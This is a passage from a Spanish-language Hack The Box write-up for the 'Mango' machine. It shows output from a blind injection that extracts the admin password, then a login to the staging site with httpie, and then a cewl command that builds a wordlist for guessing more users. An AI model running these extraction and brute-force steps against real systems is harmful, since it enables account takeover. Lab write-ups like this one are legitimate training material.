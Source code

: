 ``` text
Found one more char : t9KcS3>!0B#2$$$$
Found one more char : t9KcS3>!0B#2$$$$$
Found one more char : t9KcS3>!0B#2$$$$$$
```

Continua *true* porque el inicio siempre es valido y porque no sabemos la longitud de la password.

> admin:t9KcS3\>!0B#2

Probamos las credenciales descubiertas para admin:

``` text
tony@laptop:~/htb/mango$ http --header -f --proxy http:http://127.0.0.1:8080  POST http://staging-order.mango.htb/index.php 'username=admin' 'password=t9KcS3>!0B#2' login=login
HTTP/1.1 302 Found
Cache-Control: no-store, no-cache, must-revalidate
Connection: close
Content-Length: 4022
Content-Type: text/html; charset=UTF-8
Date: Fri, 03 Apr 2020 06:04:42 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: Apache/2.4.29 (Ubuntu)
Set-Cookie: PHPSESSID=8mv78eer1d1dp7u84acl3ncscj; path=/
location: home.php

```

La respuesta es la esperada, así que podemos ir con burpsuite o firefox, y explorar la aplicación. 

Unos minutos después, me dí cuenta de que no había nada relevante en esta parte, así que trate de ingresar por SSH con estas credenciales pero no tuve éxito. Así fue que después de darle mas vueltas, dí un paso atrás y decidí buscar mas usuarios.

## cewl

Usamos cewl para tomar cualquier valor que nos pueda servir dentro de la aplicación, y con esto, creamos un diccionario con mayúsculas y minúsculas:

``` text
tony@laptop:~/htb/mango$ (cewl http://staging-order.mango.htb; cewl http://staging-order.mango.htb | tr '[:upper:]' '[:lower:]' ; cewl http://staging-order.mango.htb | tr '[:lower:]' '[:upper:]')  | grep -vi ninja | tee dict1.txt
Mango
Sweet
Juicy
Welcome
Back
Log
for
ordering
Forgot
Password
LOGIN
mango
sweet
juicy
welcome
back
log
for
ordering
forgot
password
login
MANGO
```